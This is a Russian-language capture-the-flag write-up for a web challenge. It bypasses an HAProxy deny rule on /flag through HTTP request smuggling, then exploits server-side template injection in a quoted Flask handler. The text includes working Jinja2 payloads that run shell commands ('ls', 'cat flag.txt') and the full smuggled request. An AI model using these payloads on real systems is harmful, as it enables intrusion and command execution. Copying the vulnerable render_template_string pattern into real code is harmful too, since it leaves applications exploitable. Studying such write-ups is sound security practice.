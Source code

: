 # Web 3
Вводим имя, получаем перенаправление на /flag, на котором получаем 403:
![403.png](403.png "403 :(") \
Читаем исходники и видим, что на сервере стоит haproxy, который не пускает нас на /flag. Из haproxy.cfg:
```
    acl restricted_page path_beg,url_dec -i /flag
    http-request deny if restricted_page
```
Ищем "haproxy exploit 1.9.10" в Яндексе, долго копаемся в поисковой выдаче, пока не наткнёмся на: \
https://blog.shoebpatel.com/2020/05/18/DefCon-CTF-2020-HTTP-Desync-between-HAProxy-Gunicorn/ \
Используя http  smuggling обходим прокси и делаем запрос к /flag(много раз, пока не получим ответ на 2 запрос). В самом запросе в поле name вставляем простой ssti, который можно заметить в коде app.py:
```
@app.route('/flag')
def index():
    code = request.args.get('name')
    contains_forbidden = sanitize_input(code)
    if not contains_forbidden:
        html = "<h1>привет</h1><p><h3> %s </h3><p>" % (code[:100])
    else:
        html = "<h1> Содержит запрещенные символы</h1>"
    return render_template_string(html)
```
![504.png](504.png "504 :)")

Поднимаем локально через докер, убирая ограничение на /flag в haproxy, чтобы потренироваться с пейлоадом:

![local.png](local.png "local :)")

C помощью https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection подбираем пейлоад:
```
{{config.__init__.__globals__.__builtins__.__import__("os").popen("ls").read()}}
```
![local2.png](local2.png "local2 :)")
А потом:
```
{{config.__init__.__globals__.__builtins__.__import__("os").popen("cat%20flag.txt").read()}}
```
![local3.png](local3.png "local3 :)")

Повторяем то же самое на сервере вместе с http smugglinhg ^-^:\
![win.png](win.png "ПОБЕДА!!!!!!! ")
Итоговый запрос:
```
GET / HTTP/1.1
Host:192.168.12.11:8001
Content-Length: 160
Transfer-encoding:chunked

5
fffff
0

GET /flag?name={{config.__init__.__globals__.__builtins__.__import__("os").popen("cat%20flag.txt").read()}} HTTP/1.1
Host:192.168.12.11:8001


```
